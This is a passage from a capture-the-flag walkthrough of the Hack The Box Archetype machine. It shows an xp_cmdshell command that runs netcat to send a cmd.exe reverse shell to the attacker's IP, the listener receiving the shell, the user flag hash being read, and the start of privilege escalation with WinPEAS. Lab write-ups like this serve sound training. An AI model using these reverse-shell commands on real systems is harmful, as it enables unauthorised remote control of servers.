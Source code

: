 And we execute this command on the target :

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] YOUR_PORT"
```

In my case :

```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 10.10.14.231 1337"
```

And we have the connection on [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.231] from (UNKNOWN) [10.129.52.2] 49676
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
# Submit Flags
## User flag

We can move through the system with `dir` (`ls` eq for win), `cd` (moving in directories) and see files with `type` (`cat` eq for win) :

```powershell
Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,712,535,040 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```
## Root flag

We need [Privilege Escalation](../../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to see the root flag, we'll use [WinPEAS](../../../../3%20-%20Tags/Hacking%20Tools/WinPEAS.md) to autpmatically search for vectors, first we locate it and copy it, if you don't have it you can download it here : [https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe] :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ locate winpeas         
/usr/bin/winpeas
/usr/share/applications/kali-winpeas.desktop
/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/kali-winpeas.svg
/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/winpeas.svg
/usr/share/icons/hicolor/16x16/apps/kali-winpeas.png
/usr/share/icons/hicolor/22x22/apps/kali-winpeas.png
/usr/share/icons/hicolor/24x24/apps/kali-winpeas.png
/usr/share/icons/hicolor/256x256/apps/kali-winpeas.png
/usr/share/icons/hicolor/32x32/apps/kali-winpeas.png
/usr/share/icons/hicolor/48x48/apps/kali-winpeas.png
/usr/share/icons/hicolor/scalable/apps/kali-winpeas.svg
```